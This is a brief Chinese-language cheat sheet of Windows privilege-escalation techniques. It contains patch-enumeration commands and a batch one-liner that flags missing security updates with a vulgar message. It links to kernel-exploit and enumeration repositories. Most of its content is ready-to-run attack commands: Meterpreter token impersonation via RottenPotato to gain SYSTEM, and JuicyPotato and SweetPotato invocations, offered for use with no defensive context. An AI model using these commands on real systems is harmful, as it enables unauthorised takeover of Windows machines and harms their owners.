 #  信息收集

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973


快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits


## RottenPotato
https://github.com/foxglovesec/RottenPotato
```bash
msfmeter> use incognito
msfmeter> list_tokens -u
msfmeter> execute -cH -f C:/Users/test/Desktop/rottenpotato.exe
msfmeter> list_tokens -u
msfmeter> impersonate_token "NT AUTHORITY\SYSTEM"
```
## juicypotato
https://blog.csdn.net/negnegil/article/details/120243657
https://github.com/uknowsec/JuicyPotato
JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {4991d34b-80a1-4291-83b6-3328366b9097}

https://github.com/breenmachine/RottenPotatoNG
https://github.com/antonioCoco/RoguePotato2
https://github.com/CCob/SweetPotato
SweetPotato -a whoami